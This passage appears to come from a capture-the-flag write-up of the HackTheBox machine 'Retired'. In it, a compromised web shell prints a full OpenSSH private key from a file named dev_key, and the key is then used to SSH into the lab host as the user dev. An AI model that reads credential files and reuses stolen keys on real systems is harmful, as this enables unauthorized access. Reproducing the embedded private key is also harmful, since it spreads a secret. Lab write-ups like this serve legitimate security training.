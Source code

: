 Reading the private key:
```
www-data@retired:/var/www/test/var/www/html$ cat dev_key 
-----BEGIN OPENSSH PRIVATE KEY-----
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
7rTyG3wbNka1sAAAALZGV2QHJldGlyZWQ=
-----END OPENSSH PRIVATE KEY-----
```

We can use this key to SSH in as `dev`:
```bash
caue@kali:~/htb/retired$ ssh -i dev.idrsa dev@10.10.11.154          
The authenticity of host 10.10.11.154 (10.10.11.154) cant be established.
ED25519 key fingerprint is SHA256:yJ9p3p5aZFrQR+J2qeIQ54gY9gQ7kcEbymYQBvP5PdY.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.154' (ED25519) to the list of known hosts.
Linux retired 5.10.0-11-amd64 #1 SMP Debian 5.10.92-2 (2022-02-28) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Mon Mar 28 11:36:17 2022 from 10.10.14.23
dev@retired:~$
```

